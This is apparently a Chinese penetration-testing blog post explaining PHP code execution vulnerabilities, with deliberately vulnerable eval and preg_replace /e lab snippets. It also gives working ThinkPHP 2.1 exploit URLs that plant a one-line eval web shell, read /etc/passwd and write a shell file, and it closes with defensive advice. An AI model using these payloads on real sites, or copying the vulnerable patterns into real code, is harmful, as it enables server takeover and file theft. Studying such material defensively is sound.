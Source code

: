 +++
date = "2016-07-25T22:32:51+08:00"
description = ""
draft = false
tags = ["rce"]
title = "代码执行漏洞(一)"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:00
 * @LastEditTime: 2019-08-14 19:05:02
 -->

### 0x00 代码执行
当应用在调用一些能将字符转化为代码的函数(如PHP中的eval)时，没有考虑用户是否能控制这个字符串，这就会造成代码执行漏洞。

### 0x01 相关函数
```
PHP：eval assert
Python：exec
asp：<%=CreateObject(“wscript.shell”).exec(“cmd.exe /c ipconfig”).StdOut.ReadAll()%>
Java：没有类似函数，但采用的反射机制和各种基于反射机制的表达式引擎(OGNL、SpEL、MVEL等)有类似功能
```

### 0x02 phpcms中的string2array函数
这个函数可以将phpcms的数据库settings的字符串形式的数组内容转换为真实的数组
```
array(  //这个是字符串形式的数组，它并不是数组，而是字符串
    'upload_maxsize' => '2048',
    'upload_allowext' => 'jpg|jpeg|gif|bmp|png|doc|docx|xls|xlsx|ppt|pptx|pdf|txt|rar|zip|swf', 
    'watermark_enable' => '1',
    'watermark_minwidth' => '300',
    'watermark_minheight' => '300',
    'watermark_img' => '/statics/img/water/mark.png',
    'watermark_pct' => '85',
    'watermark_quality' => '80',
    'watermark_pos' => '9',
)
```
```php
function string2array($data) {
    //这个函数可以将字符串$data转化为数组
    if($data == '') 
        return array(); 
    @eval("\$array = $data;"); 
        return $array;
}
```

### 0x03 漏洞危害
* 执行代码
* 让网站写shell
* 甚至控制服务器

### 0x04 漏洞分类(也是利用点)
```
执行代码的函数：eval、assert
callback函数：preg_replace + /e模式
反序列化：unserialize()(反序列化函数)
```

### 0x05 漏洞挖掘
```
框架找漏洞，如ThinkPHP：
  inurl:index.php intext:ThinkPHP 2.1 { Fast & Simple OOP PHP Framework }
框架的URL格式如下：
  Site:Port/Module name/Method name/Property name/Preperty value
  Site:Port/index.php?m=Module_name&f=Method_name&v=Preperty_value
  
  www.xx.com:88/News/show/id/328
  www.yy.com:99/index.php?m=News&f=detail&item=23
  www.zz.com/global_cms_contentview_id_2435
```

### 0x06 搭建环境实验
* 示例一
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = $data;");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数1](/img/post/code_execution_eval1.png)

* 示例二
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower('$data');");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数2](/img/post/code_execution_eval2.png)

* 示例三
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数3](/img/post/code_execution_eval3.png)
![代码执行漏洞使用eval函数4](/img/post/code_execution_eval4.png)

* 示例四
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数5](/img/post/code_execution_eval5.png)
![代码执行漏洞使用eval函数6](/img/post/code_execution_eval6.png)

* 示例五  
mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])  
/e修正符使preg_replace()将replacement参数当作PHP 代码(在适当的逆向引用替换完之后)
```php
<?php
    $data = $_GET['data'];
    $ret = preg_replace('/<data>(.*?)<\/data>/e','$ret = "\\1"',$data);
    echo $ret;
?>
```
![代码执行漏洞使用preg_replace函数](/img/post/code_execution_preg_replace.png)

### 0x07 具体操作
```
# 一般找CMS相应版本漏洞，如ThinkPHP2.1
* 一句话
    http://www.xxx.com/News/detail/id/{${@eval($_POST[aa])}}
* 得到当前路径
    http://www.xxx.com/News/detail/id/{${print(getcwd()))}}
* 读文件
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_get_contents($_POST['f'])))}}
    POST的数据为：f=/etc/passwd
* 写shell
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_put_contents($_POST['f'],$_POST[d])))}}
    POST的数据为：f=1.php&d=<?php @eval($_POST['aa'])?>
```

### 0x08 漏洞防御
* 使用json保存数组，当读取时就不需要使用eval了
* 对于必须使用eval的地方，一定严格处理用户数据
* 字符串使用单引号包括可控代码，插入前使用addslashes转义
* 放弃使用preg_replace的e修饰符，使用preg_replace_callback()替换
* 若必须使用preg_replace的e修饰符，则必用单引号包裹正则匹配出的对象

#### 下一篇：[代码执行漏洞(二)](/posts/2016/code-execution-vulnerabilities-2/)
